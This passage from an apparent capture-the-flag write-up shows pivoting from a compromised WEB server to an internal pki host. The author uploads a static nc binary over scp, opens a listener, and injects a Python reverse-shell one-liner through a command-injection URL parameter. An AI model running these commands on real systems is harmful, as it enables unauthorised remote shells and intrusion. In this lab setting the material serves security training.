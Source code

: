 I am going to test the connectivity from the **WEB** server to the **IP** of the real machine, but the packets are not arriving. If I look again at the network interfaces it has, there is one that has an **IP** that belongs to the **PKI** network segment and with the **pki** host if I have connectivity! So what I can do is to upload a [compiled `nc` binary](https://github.com/yunchih/static-binaries/blob/master/nc){:target="_blank"} on the **WEB** server and receive there a **[Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** that I will be able to get thanks to the **FPM** exploit.

> **Attacker Machine**:

```bash
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/bin/ping -c 1 10.10.14.15" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v 'cannot open'
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/bin/ping -c 1 192.168.254.2" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v 'cannot open'

mv ~/Downloads/nc .
scp -P 2222 -i id_rsa nc www-data@10.10.10.246:/dev/shm
```

> **WEB Machine**:

```bash
cd /dev/shm
./nc -nlvp 4646
```

> **Attacker Machine**:

```bash
curl -s -G -X GET http://localhost/index.php --data-urlencode "a=/usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.254.2\",4646));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" | awk "/' - /,/: cannot open/" | sed "s/' - //" | grep -v 'cannot open'
```

<br/>
<img src="{{ site.img_path }}/static_writeup/Static_82.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_83.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_84.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_85.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_86.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_87.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_88.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/static_writeup/Static_89.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
